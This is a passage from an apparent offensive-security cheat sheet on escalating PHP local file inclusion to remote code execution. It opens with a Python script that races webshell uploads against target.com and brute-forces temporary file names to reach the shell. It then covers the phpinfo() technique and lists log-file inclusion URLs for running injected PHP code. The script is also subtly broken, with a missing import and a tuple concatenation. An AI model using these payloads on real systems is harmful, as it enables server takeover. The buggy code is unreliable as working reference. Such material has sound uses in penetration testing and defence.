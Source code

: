 ```
import itertools
import requests
import sys

print('[+] Trying to win the race')
f = {'file': open('shell.php', 'rb')}
for _ in range(4096 * 4096):
    requests.post('http://target.com/index.php?c=index.php', f)


print('[+] Bruteforcing the inclusion')
for fname in itertools.combinations(string.ascii_letters + string.digits, 6):
    url = 'http://target.com/index.php?c=/tmp/php' + fname
    r = requests.get(url)
    if 'load average' in r.text:  # <?php echo system('uptime');
        print('[+] We have got a shell: ' + url)
        sys.exit(0)

print('[x] Something went wrong, please try again')
```

## **LFI to RCE via phpinfo()**

PHPinfo() displays the content of any variables such as **$\_GET**, **$\_POST** and **$\_FILES**.

> By making multiple upload posts to the PHPInfo script, and carefully controlling the reads, it is possible to retrieve the name of the temporary file and make a request to the LFI script specifying the temporary file name.

Use the script phpInfoLFI.py (also available at [https://www.insomniasec.com/downloads/publications/phpinfolfi.py](https://www.insomniasec.com/downloads/publications/phpinfolfi.py))

Research from [https://www.insomniasec.com/downloads/publications/LFI%20With%20PHPInfo%20Assistance.pdf](https://www.insomniasec.com/downloads/publications/LFI%20With%20PHPInfo%20Assistance.pdf)

## **LFI to RCE via controlled log file**

Just append your PHP code into the log file by doing a request to the service (Apache, SSH..) and include the log file.

```
http://example.com/index.php?page=/var/log/apache/access.log
http://example.com/index.php?page=/var/log/apache/error.log
http://example.com/index.php?page=/var/log/nginx/access.log
http://example.com/index.php?page=/var/log/nginx/error.log
http://example.com/index.php?page=/var/log/vsftpd.log
http://example.com/index.php?page=/var/log/sshd.log
http://example.com/index.php?page=/var/log/mail
http://example.com/index.php?page=/var/log/httpd/error_log
http://example.com/index.php?page=/usr/local/apache/log/error_log
http://example.com/index.php?page=/usr/local/apache2/log/error_log
```
